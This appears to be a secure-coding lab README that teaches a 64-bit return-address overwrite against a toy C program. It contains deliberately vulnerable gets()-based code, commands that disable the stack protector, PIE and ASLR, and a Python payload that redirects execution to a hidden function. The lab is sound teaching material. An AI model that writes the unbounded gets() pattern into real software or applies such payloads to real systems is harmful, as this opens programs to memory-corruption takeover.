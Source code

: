 

# 🔐 Secure Coding Lab: ARC Injection via Buffer Overflow (64-bit)

## 🎯 Objective

In this lab, you will perform a classic **ARC Injection attack** by overflowing a buffer to overwrite the return address and redirect execution to a hidden `secret()` function.

---

## 🧪 Lab Setup

### 1. Create the vulnerable C program

Save the following code as `arc_injection.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void secret() {
    printf("🔥 You reached secret!\n");
    exit(0);
}

void vulnerable() {
    char buffer[64];
    printf("Enter your input: ");
    gets(buffer);  // Vulnerable: no bounds check!
    printf("You entered: %s\n", buffer);
}

int main() {
    vulnerable();
    return 0;
}
````

> 🔥 **Warning:** This code is intentionally vulnerable for educational purposes only.

---

### 2. Compile with protections disabled

```bash
gcc -g -fno-stack-protector -no-pie arc_injection.c -o arc_injection
```

### 3. Disable ASLR (Address Space Layout Randomization)

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

## 🕵️ Step 1: Find the Address of `secret()`

```bash
objdump -d ./arc_injection | grep secret
```

Example output:

```
0000000000401196 <secret>:
```

---

## 🧠 Step 2: Determine Offset to Return Address

Start GDB and inspect the stack layout.

```bash
gdb ./arc_injection
(gdb) break vulnerable
(gdb) run
(gdb) print &buffer
(gdb) info frame
```

> ✅ Note: The offset between the start of `buffer` and the saved `RIP` is typically **72 bytes**.

---

## 💣 Step 3: Craft and Execute the Exploit

Use Python to overflow the buffer and overwrite the return address:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*72 + b"\x96\x11\x40\x00\x00\x00\x00\x00")' | ./arc_injection
```

> Replace `\x96\x11\x40...` with the **little-endian** version of the actual address of `secret()`.

---

## ✅ Expected Output

```
Enter your input:
You entered: AAAAAAAAAAAAA...
🔥 You reached secret!
```

---

## 📘 Reflection Questions

1. Why do we use little-endian format for the address?
2. What would happen if we compiled the program with stack protection enabled?
3. How does `gets()` contribute to the vulnerability?
4. How can you detect and prevent such vulnerabilities in real-world code?

---

## 🛡️ Extra Credit: Defense Mechanisms

Try recompiling with stack protection and PIE enabled:

```bash
gcc -g arc_injection.c -o arc_injection  # default flags = protections ON
```

Then re-run your exploit. What happens?

---

## 🧹 Clean-Up

Re-enable ASLR:

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

---

```

---


```
